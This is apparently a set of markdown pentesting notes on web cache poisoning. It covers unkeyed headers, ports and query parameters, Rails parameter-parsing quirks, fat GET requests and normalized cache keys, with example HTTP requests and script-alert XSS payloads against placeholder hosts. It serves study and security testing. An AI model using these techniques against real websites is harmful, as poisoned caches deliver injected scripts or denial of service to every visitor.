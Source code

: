 # Web cache poisoning

More info about web cache: [web-cache.md](../web-security/web-cache.md "mention")

Two phases:

1. Find a way to trigger a response that unintentionally includes a dangerous payload.
2. Ensure the response is cached and served to the intended victims after success.

## <mark style="color:yellow;">Exploiting cache design flaws</mark>

**Web cache poisoning to deliver XSS**

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

`X-Forwarded-Host` is unkeyed. Exploit: `X-Forwarded-Host: a."><script>alert(1)</script>"`

If this response was cached, all users who accessed `/en?region=uk` would be served this XSS payload

{% hint style="info" %}
**Note**: try also multiple headers

```http
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```
{% endhint %}

### <mark style="color:yellow;">Exploiting responses that expose too much information</mark>

**Cache-control directives**

A challenge in web cache poisoning is ensuring the harmful response gets cached, often requiring manual trial and error. However, sometimes responses reveal information that helps the attacker successfully poison the cache.

```http
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
```

**Vary header**

The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. For example, it is commonly used to specify that the `User-Agent` header is keyed. If the mobile version of a website is cached, this won't be served to non-mobile users by mistake.

## <mark style="color:yellow;">Exploiting cache implementation flaws</mark>

The methodology involves the following steps:

1. Identify a suitable cache oracle
   * A cache oracle is a cacheable page or endpoint that provides feedback on whether a response was cached or served directly from the server.
2. Identify and evaluate unkeyed inputs
   * Adding random inputs to requests and observing their effect on the response, whether it's directly reflected or triggers a different response.
3. Identify an exploitable gadget
   * These gadgets will often be classic client-side vulnerabilities, such as reflected XSS and open redirects.

{% hint style="success" %}
**Tip**: use Param Miner extension to identify unkeyed inputs (Guess headers)
{% endhint %}

### <mark style="color:yellow;">Unkeyed port</mark> <a href="#unkeyed-port" id="unkeyed-port"></a>

In this way you can:

* Enable a denial-of-service attack by adding an arbitrary port, redirecting users to a non-functional port.&#x20;
* Enable XSS payload injection.

### <mark style="color:yellow;">Unkeyed query string</mark> <a href="#unkeyed-query-string" id="unkeyed-query-string"></a>

Like the Host header, the request line is usually keyed, but one of the most common cache-key transformations is the exclusion of the entire query string.

**Detecting an unkeyed query string**

You can use alternative cache busters, like adding them to a keyed header that doesn’t affect the app’s behavior.

```http
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.vulnerable-website.com
```

### <mark style="color:yellow;">Unkeyed query parameters</mark> <a href="#unkeyed-query-parameters" id="unkeyed-query-parameters"></a>

Some websites only exclude specific query parameters that are not relevant to the back-end application, such as parameters for analytics or serving targeted advertisements. UTM parameters like `utm_content`.

#### Detection

First time

```http
GET /?first=test1&utm_content=a HTTP/2

HTTP/2 200 OK
X-Cache: miss
```

Second time

```http
GET /?first=test1&utm_content=b HTTP/2

HTTP/2 200 OK
X-Cache: hit
```

{% hint style="success" %}
**Tip**: use Param Miner extension to identify unkeyed inputs (Guess query params)
{% endhint %}

### <mark style="color:yellow;">**Exploiting parameter parsing quirks**</mark>

This happen when back-end identifies distinct parameters that the cache does not. The Ruby on Rails framework, for example, interprets both ampersands (`&`) and semicolons (`;`) as delimiters

```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```

As the names suggest, `keyed_param` is included in the cache key, but `excluded_param` is not. Many caches will only interpret this as two parameters, delimited by the ampersand:

```
1.    keyed_param=abc
2.    excluded_param=123;keyed_param=bad-stuff-here
```

Once the parsing algorithm removes the `excluded_param`, the cache key will only contain `keyed_param=abc`. On the back-end, however, Ruby on Rails sees the semicolon and splits the query string into three separate parameters:

```
1.    keyed_param=abc
2.    excluded_param=123
3.    keyed_param=bad-stuff-here
```

But now there is a duplicate `keyed_param`. This is where the second quirk comes into play. If there are duplicate parameters, each with different values, Ruby on Rails gives precedence to the final occurrence. The end result is that the cache key contains an innocent, expected parameter value, allowing the cached response to be served as normal to other users. On the back-end, however, the same parameter has a completely different value, which is our injected payload. It is this second value that will be passed into the gadget and reflected in the poisoned response.

### <mark style="color:yellow;">**Exploiting fat GET support**</mark>

Although this scenario is pretty rare, you can sometimes simply add a body to a `GET` request to create a "fat" `GET` request. In this case you can "overwrite" the param value

```http
GET /?param=innocent HTTP/1.1
[…]

param=bad-stuff-here
```

### <mark style="color:yellow;">Normalized cache keys</mark> <a href="#normalized-cache-keys" id="normalized-cache-keys"></a>

Problem: when you find reflected XSS in a parameter, it is often unexploitable in practice. This is because modern browsers typically URL-encode the necessary characters when sending the request, and the server doesn't decode them.

Example:

You send the follow URL to a victim

```
https://vulnerable.website.net/test<script>alert(1)</script>
```

His browser send the following request

```http
GET /test%3Cscript%3Ealert(1)%3C/script%3E HTTP/2
Host: vulnerable.website.net
[...]


HTTP/2 404 Not Found
[...]

<p>Not Found: /test<script>alert(1)</script></p>
```

So, normally this XSS is unexploitable.

**Exploitation with normalized cache keys**

Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key:

```http
GET /example?param="><test>
GET /example?param=%22%3e%3ctest%3e
```

When the victim visits the malicious URL, the payload will still be URL-encoded by their browser; however, once the URL is normalized by the cache, it will have the same cache key as the response containing your unencoded payload.
